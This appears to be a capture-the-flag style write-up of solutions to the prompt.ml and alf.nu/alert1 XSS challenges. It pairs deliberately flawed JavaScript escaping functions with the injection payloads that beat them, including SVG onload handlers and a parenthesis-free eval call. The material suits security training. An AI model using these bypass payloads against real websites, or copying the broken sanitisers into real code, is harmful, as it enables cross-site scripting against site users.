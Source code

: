 # prompt.ml

## 1. Warm up

- Task
 
```js
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
} 
```

- Solution

```js
"><svg onload=prompt(1)> <!--
```

## 2. Tag stripping

- Task

```js
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}
```

- Solution

```js
<svg onload=prompt(1) // 
```

## 3. Parenthesis-less

- Task

```js
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}     
```

- Solution

```js
<script>eval.call`${'prompt\x281\x29'}`</script>
```

# alf.nu/alert1

-Task

```js
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

-Solution

```js
",alert(1),"
```

-Task

```js
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

- Solution

```js
\");alert(1)//
```

- Task

```js
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```

-Solution

```js
</script><script>alert(1)//
```
